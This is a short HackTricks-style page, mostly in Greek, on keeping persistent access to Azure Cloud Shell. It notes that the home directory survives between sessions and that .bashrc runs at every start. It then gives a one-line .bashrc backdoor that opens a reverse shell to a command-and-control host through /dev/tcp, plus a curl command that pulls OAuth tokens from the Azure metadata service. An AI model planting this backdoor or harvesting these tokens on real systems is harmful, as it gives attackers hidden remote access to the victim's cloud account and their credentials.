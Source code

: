 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Το Azure Cloud Shell προσφέρει πρόσβαση γραμμής εντολών για τη διαχείριση πόρων Azure με μόνιμη αποθήκευση και αυτόματη πιστοποίηση. Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό το χαρακτηριστικό τοποθετώντας backdoors στον μόνιμο κατάλογο αρχικής:

* **Persistent Storage**: Ο κατάλογος αρχικής του Azure Cloud Shell είναι τοποθετημένος σε ένα Azure file share και παραμένει ανέπαφος ακόμη και μετά την ολοκλήρωση της συνεδρίας.
* **Startup Scripts**: Αρχεία όπως το .bashrc εκτελούνται αυτόματα στην αρχή κάθε συνεδρίας, επιτρέποντας τη μόνιμη εκτέλεση όταν ξεκινά το cloud shell.

Example backdoor in .bashrc:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Αυτή η πίσω πόρτα μπορεί να εκτελεί εντολές ακόμη και 5 λεπτά μετά την ολοκλήρωση του cloud shell από τον χρήστη.

Επιπλέον, ερωτήστε την υπηρεσία μεταδεδομένων του Azure για λεπτομέρειες και tokens της παρουσίας:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
